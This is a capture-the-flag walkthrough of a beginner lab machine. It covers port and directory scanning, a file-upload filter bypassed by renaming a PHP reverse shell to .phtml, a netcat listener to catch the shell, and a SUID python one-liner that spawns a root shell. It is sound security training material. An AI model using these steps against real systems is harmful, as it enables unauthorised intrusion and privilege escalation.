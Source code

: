 *A ctf for beginners, can you root me?*

**Difficulty:** Easy
## Reconnaissance

I started by scanning the top 1000 ports of the target IP with nmap using the default scripts and version detection. **10.10.80.208** is the IP address of my instance of the target machine.

**Command:** `nmap -sC -sV 10.10.80.208`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 20:15 EST
Nmap scan report for 10.10.80.208
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan shows two open ports: 
 * Port 22: Running an SSH server (OpenSSH 7.6p1 Ubuntu).
 * Port 80: Hosting a webpage titled "HackIT - Home" on Apache/2.4.29.

The results give us enough to answer the first three questions.
#### Scan the machine, how many ports are open?
This can be found from the nmap scan. Since the expected answer matches the number of open ports we found by scanning the top 1000, there is no need to further scan the full range of ports.
#### What version of Apache is running?
This can be seen in the `http-server-header` field of the scan results of port 80.
#### What service is running on port 22?
Refer to nmap scan to answer this question.
#### Find directories on the web server using the GoBuster tool. 
Now we need to enumerate the http service for any hidden directories using Gobuster. This will brute-force check using a wordlist of popular directory names. 

I used my Kali home lab for this room, so the command uses a relative path, but the wordlist can be found here on the attack box: `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.80.208/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.80.208/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.80.208/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.80.208/panel/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### What is the hidden directory?
Two noteworthy directories are `/uploads` and `/panel`. Visiting `http://10.10.80.208/uploads/` returns a page that appears to be the location where files uploaded to the server are stored. Visiting `http://10.10.80.208/panel/` shows us a file upload form and seems to be the hidden directory we are looking for.

![](images/rootme-panel-directory.png)

I uploaded a `.jpeg` image to confirm that files uploaded through this form can be accessed in the `/uploads` path.

![](images/rootme-jpeg-upload.png)
## Getting a shell
*Find a form to upload and get a reverse shell, and find the flag.*

I used Gobuster to find hints of which type of reverse shell I should upload by adding the following list of extensions for Gobuster to look for on the server: `txt,php,php3,phtml,py,html,php4,php5,js`. 

**Command:** `gobuster dir -u http://10.10.80.208 -w wordlists/directory-list-2.3-medium.txt -x php,php3,php4,php5,phtml,py,js,html,txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.80.208
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,php3,phtml,py,html,php4,php5,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.phtml               (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 616]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.80.208/uploads/]                                       
/css                  (Status: 301) [Size: 312] [--> http://10.10.80.208/css/]                                           
/js                   (Status: 301) [Size: 311] [--> http://10.10.80.208/js/]                                            
Progress: 14977 / 2205610 (0.68%)^Z
zsh: suspended  gobuster dir -u http://10.10.80.208 -w  -x 
```

Since the scan returned `.php` and `.phtml` directories and files on the server I tried with the "php-reverse-shell" script by pentestmonkey. 

GitHub: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

AttackBox: `/usr/share/webshells/php/php-reverse-shell.php`

Remember to change the commented lines to your local IP and listening port in the file.

![](images/rootme-rev-shell-local.png)

If you try to upload the reverse shell a message is displayed saying that `.php` are blocked from being uploaded to the server.

![](images/rootme-upload-php-shell.png)
![](images/rootme-php-restriction.png)

We can try to change the file extension to an alternate PHP extension that would still allow the shell to run, but may not have been restricted for uploads. I used some of these in the Gobuster scan: `php,php3,php4,php5,phtml` and we saw that `.phtml` was present on the server. So I tried renaming the reverse shell file to `php-reverse-shell.phtml`.

![](images/rootme-upload-phtml-shell.png)
![](images/rootme-successful-upload.png)

Changing the extension to `.phtml` allowed us to bypass the site file type restrictions and the file uploads successfully! And we can now see the file in the `/uploads` directory.

![](images/rootme-phtml-upload.png)

Before opening this file in our browser we need to start a netcat listener on our local machine to catch the reverse shell connection. This command needs to run with the same port specified in the `php-reverse-shell.phtml` file.

**Command:** `nc -lvnp 5555`

Executing the file through the browser initiates a reverse shell with `www-data` privileges. 
![](images/rootme-www-data-priv.png)

After looking around the server a bit I found the `user.txt` flag in the `var/www` directory.
![](images/rootme-user-flag.png)
## Privilege escalation
*Now that we have a shell, let's escalate our privileges to root.*
#### Search for files with SUID permission, which file is weird?
With the below command we can search for files that are owned by root and have SUID permissions.

**Command:** `find / -user root -perm /4000 2>/dev/null

![](images/rootme-suid-perm.png)

Python showing up in this search is noteworthy because it will let us execute commands as the current user with root privileges.
#### Find a form to escalate your privileges.
GFTOBins provides a way to escape our privileges to root when python has SUID permissions: https://gtfobins.github.io/gtfobins/python/#suid

The command shown in GFTOBins will invoke `/bin/sh` with the `-p` flag, preserving the user ID. Since Python is SUID and owned by root, it gives us a shell with root privilege.

**Command:** `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](images/rootme-escalate.png)
#### root.txt
We can now access the root directory and find the root flag!
![](rootme-root-flag.png)